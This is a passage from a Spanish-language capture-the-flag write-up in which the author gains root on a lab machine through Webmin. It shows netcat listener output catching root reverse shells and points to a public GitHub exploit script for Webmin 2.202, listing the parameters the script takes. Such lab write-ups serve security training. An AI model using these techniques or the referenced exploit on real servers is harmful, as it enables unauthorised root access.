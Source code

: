Observa la **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.200] 34514
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```
Funcionó correctamente.

Esto también podemos hacerlo desde la **Terminal** de **Webmin**.

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura21.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.200] 43600
root@debian:~# whoami
whoami
root
```
Somos **Root** otra vez.

<br>

<h2 id="Github">Escalando Privilegios Abusando de Versión Vulnerable de Webmin con Script de GitHub</h2>

Por último, si buscamos algún Exploit para la **versión 2.202 de Webmin**, encontraremos un repositorio que contiene un script que obtiene una **Reverse Shell** como **Root**:
* <a href="https://github.com/enisecur1ty/Webmin-RCE-Leading-to-Root-Privilege-Escalation/tree/main" target="_blank">Repositorio de enisecr1ty: Webmin RCE Leading to Privilege Escalation</a>

Este script aprovecha la **Shell** de la sección **Tools** para mandar una **Reverse Shell** a un listener que tengas activo.

Debes darle los siguientes parámetros:
* La IP de la página web donde está activo el **Webmin**.
* El puerto donde está activo el **Webmin**.
* El usuario y contraseña para pasar al login.
* Y le debemos dar nuestra IP y el puerto usado en el listener.
